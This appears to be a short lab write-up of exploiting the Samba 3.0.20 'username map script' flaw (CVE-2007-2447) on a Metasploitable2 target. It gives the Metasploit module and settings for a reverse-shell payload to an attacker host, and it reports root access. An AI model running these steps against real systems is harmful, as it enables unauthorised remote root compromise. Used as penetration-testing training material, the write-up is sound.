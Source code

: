 # Samba Remote Code Execution (CVE-2007-2447)

# Summary
This exploit targets a misconfigured Samba service (version 3.0.20) on Metasploitable2. By injecting commands via the `username map script` feature, an attacker can execute arbitrary commands on the system with root privileges.

# Tools Used
- Metasploit Framework

# Steps Performed

1. Started Metasploit:
   ```bash
   msfconsole

2. Loaded the module:
    use exploit/multi/samba/usermap_script

3. Set target IP and payload:
    set RHOSTS 192.168.6.3
    set PAYLOAD cmd/unix/reverse
    set LHOST 192.168.6.4
    set LPORT 4444
    run

4. Shell opened(See screenshot)

# Outcome
Root shell obtained on target

Fully compromised machine

# CVE Details
CVE: CVE-2007-2447

Vulnerable version: Samba 3.0.20

Misconfiguration: Insecure username map script parameter

Impact: Remote command execution as root

# MITRE ATT&CK Mapping

T1210: Exploitation of Remote Services

T1021.002: SMB/Windows Admin Shares
